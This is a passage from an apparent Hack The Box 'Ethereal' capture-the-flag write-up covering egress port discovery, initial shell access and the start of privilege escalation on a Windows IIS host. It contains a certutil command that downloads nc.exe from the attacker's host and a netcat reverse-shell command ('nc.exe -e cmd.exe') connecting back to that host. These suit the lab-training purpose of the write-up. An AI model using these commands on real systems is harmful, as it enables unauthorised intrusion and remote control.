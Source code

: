 I used Wireshark to look for incoming SYN packets and started the scan.

```
root@darkisland:~/hackthebox/Machines/Ethereal# ./scanport.py
[...]
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 72
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 73
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 74
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 75
[...]
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 135
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 136
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 137
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 138
```

From the pcap, I identified inbound connections on port 73 and 136.

![](/assets/images/htb-writeup-ethereal/wireshark.png)

Now, we just need to get netcat uploaded to the server and try to get a proper shell.

First, let's start an HTTP listener on port 73 to host nc.exe, then issue `certutil.exe -urlcache -split -f http://10.10.14.23:73/nc.exe c:\users\public\desktop\shortcuts\nc.exe`

And finally, spawn a netcat connection with `c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 136`

We finally got a shell!

![](/assets/images/htb-writeup-ethereal/shell1.png)

### Privesc

Our IIS user has `SeImpersonatePrivilege` so we can probably do Rotten Potato.

```
c:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
